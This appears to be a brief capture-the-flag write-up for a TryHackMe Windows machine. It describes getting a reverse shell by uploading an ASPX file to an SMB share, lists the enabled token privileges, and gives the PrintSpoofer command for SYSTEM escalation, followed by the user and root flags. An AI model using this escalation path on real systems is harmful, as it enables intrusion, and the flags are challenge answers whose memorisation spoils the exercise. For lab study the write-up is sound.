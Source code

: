 


'''


'''
In smb share i found out that we can upload our scripts into the share
so i uploaded aspx file into smbshre and executed the file using curl and we get a reverse shell into our system

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled



'''



'''

PrintSpoofer exploit that can be used to escalate service user permissions on Windows Server 2016, Server 2019, and Windows 10.

To escalate privileges, the service account must have SeImpersonate privileges. To execute:

PrintSpoofer.exe -i -c cmd
With appropriate privileges this should grant system user shell access.



'''
'''
User Flag
THM{fdk4ka34vk346ksxfr21tg789ktf45}

Root Flag
THM{1fk5kf469devly1gl320zafgl345pv}

'''